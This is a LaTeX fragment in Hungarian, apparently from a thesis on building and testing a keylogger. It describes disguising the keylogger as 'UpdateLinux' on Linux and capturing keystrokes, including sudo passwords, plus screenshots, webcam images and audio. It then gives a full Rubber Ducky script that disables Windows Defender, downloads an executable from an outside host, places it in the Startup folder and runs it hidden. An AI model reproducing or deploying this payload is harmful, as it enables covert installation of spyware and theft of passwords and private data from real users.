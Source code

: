 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
\subsection{Linux rendszer}
A Linux rendszeren való tesztelés során hasonló az eljárás, mint a Windows rendszeren való tesztelés során. Előszőr elindítjuk a szervert a Hacker oldalon és letöltjük a futtatható állományt a Target oldalon. Ez után elindítjuk a Hacker oldalon a szoftvert, és várjuk, hogy elinduljon a Target oldalon a keylogger. Az ábra \ref{fig:linuxPC1} mutatja az elindult keyloggert, amelynek azt a nevet adtuk, hogy \textit{UpdateLinux}. Így kevésbé feltűnő az, hogy egy nem kívánt alkalmazás fut a Target rendszerén.
\begin{figure}[H]
\centering
\includegraphics[width=450pt]{../images/linuxPC1}
\caption{Listázott folyamatok Linux rendszeren}
\label{fig:linuxPC1}
\end{figure}

A keylogger elvégzi a feladatát, tehát képes a lenyomott billentyűket elfogni, képernyőképet készíteni, webkameraképet készíteni, hangfelvételt készíteni és emailt küldeni, ha a ZeroMQ kapcsolat megszakadt.

A lenyomott billentyűk elfogása során azt is észrevettük, hogy az adminisztrátor jogosultsággal levő felhasználók jelszavát el lehet fogni, ha olyan aktivitást folyatnak, amely ifényli a felhasználó jelszavát (például a korábban említett \textit{sudo -l} parancs végrehajtása). Megjegyzés: ebben az esetben nem szolgálhatok képekkel, mert megjelenne az aktuális jelszavam.

\subsection{Ducky szkript}
A Rubber Ducky szkript generálásához létezik egy weboldal, amelyen a megírt kódból bináris állomány készül: https://ducktoolkit.com/encode. Ezt az oldalt használva a \textit{Ducky Code} részlet alatt megírjuk az alábbi kódot:
\begin{lstlisting}{language=PowerShell}
REM Disable Windows Defender with PowerShell
DELAY 1000
GUI r
DELAY 200
STRING powershell saps powershell -A 'Set-MpPreferences -DisableRea $true' -V runAs
ENTER
DELAY 200
LEFTARROW
ENTER
REM Download the keylogger
DELAY 1000
GUI r
DELAY 200
STRING powershell saps powershell
ENTER
DELAY 200
ALT y
STRING powershell -windowstyle hidden {iwr 'http://keylogger.3utilities.com:777/CTF Loader2.exe' -o 'CTF Loader2.exe';cp 'CTF Loader2.exe' 'Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\Startup';saps '.\CTF Loader2.exe'}
ENTER
\end{lstlisting}
A fenti kód gyakorlatilag a billentyűzet billentyűkombinációit és a billentyűzettel való műveleteket írja le. Ez a kód Windows rendszerre készült. A UNIX rendszereken más billentyűkombinációkat és parancsokat kell megadni (például a ``GUI r'' helyett ``GUI space'' kell).
\end{document}

